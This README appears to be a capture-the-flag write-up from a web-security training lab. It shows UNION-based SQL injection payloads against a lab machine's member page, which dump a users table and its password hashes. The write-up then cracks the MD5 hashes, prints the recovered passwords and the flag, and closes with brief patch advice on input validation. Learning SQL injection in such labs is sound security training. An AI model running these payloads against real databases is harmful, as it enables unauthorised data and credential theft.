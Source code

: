 # B04-SQLInjection-members

## BREACH

In this case, we have to exploit the page:

>`http://192.168.56.106/?page=member`

First we try a basic `ISQL` for list all tables,

>`0 UNION SELECT table_name, table_schema FROM information_schema.tables`

We have may lines in output but one is interesting:

![image](https://github.com/Seriots/Darkly/assets/94530285/88f32ef3-d05a-4b4c-bd67-1d3a8cf5115b)

We can see a table names users so, try to `list columns` about this `table`,

>`1 UNION SELECT column_name,null FROM information_schema.columns WHERE table_schema=database()`


![image](https://github.com/Seriots/Darkly/assets/94530285/9849d823-ef56-4438-9152-f8ba0faf88dc)

After dig into all columns we find two are interesting:  `Commentaire` and `countersign`,

>`1 OR 1 UNION SELECT Commentaire,null from users`

![image](https://github.com/Seriots/Darkly/assets/94530285/8e2492c1-b08b-41e5-808c-ba4efe4caf35)

And for countersign:

>`1 OR 1 UNION SELECT countersign,null from users`

![image](https://github.com/Seriots/Darkly/assets/94530285/4b08918e-db5b-4f59-82da-7ae72c9313fe)

We fin these encrypt text are in md5 so lets decode.

>2b3366bcfd44f540e630d4dc2b9b06d9 : YesWeCan

>60e9032c586fb422e2c16dee6286cf10 : oktoberfest

>e083b24a01c483437bcf4a9eea7c1b4d : This one can't be decrypt.

>5ff9d0165b4f92b14994e5c685cdce28 : FortyTwo

The precedent 'Commentaire' was for the last user so we have ton encrypt `fortytwo` in `sha256`

>This is ou flag : `10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`


## PATCH

For patch this one we have to `improve` the `sanitization/validation` of input provide by an user,

to `block sql injection`.

Stop writing dynamic queries with string concatenation or

Prevent malicious SQL input from being included in executed queries.
